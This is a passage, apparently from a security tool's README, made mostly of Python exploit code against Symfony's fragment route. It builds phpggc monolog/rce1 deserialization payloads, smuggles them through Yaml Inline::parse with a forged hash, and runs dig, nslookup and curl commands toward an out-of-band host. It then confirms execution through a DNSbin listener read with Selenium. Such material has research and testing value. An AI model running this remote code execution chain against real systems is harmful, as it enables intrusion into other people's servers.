 ```python
        {"function": "system", "parameter": f"dig {oob_url}"},
        {"function": "system", "parameter": f"nslookup {oob_url}"},
        {"function": "system", "parameter": f"curl http://{oob_url}"}
    ]
    for payload in payloads:
        query = "_controller=Symfony\\Component\\Yaml\\Inline::parse"
        try:
            out = subprocess.check_output(
                ["./lib/phpggc/phpggc",
                    "-s",
                    "monolog/rce1",
                    payload['function'],
                    payload['parameter']])
            query += f"&value=!php/object '{out.decode()}'"
        except:
            pass
        query += "&flags=4"
        query += "&references[]="
        self.payload = f"{self.url}?_path={up.quote_plus(query)}"
        self.compute_hash()
        r = S.get(
            f"{self.payload}&_hash={up.quote_plus(self.hash.decode())}")
        driver.get(parse_url)
        elt = driver.find_element_by_id(id_='requests')
        condition = "mydatahere" in elt.text
        if condition:
            results.append([True, r.url])
            break
    return results

    ...

```

Checked if the execution took place by checking [DNSbin](https://github.com/ettic-team/dnsbin) results (require a DNSbin exposed on the internet).
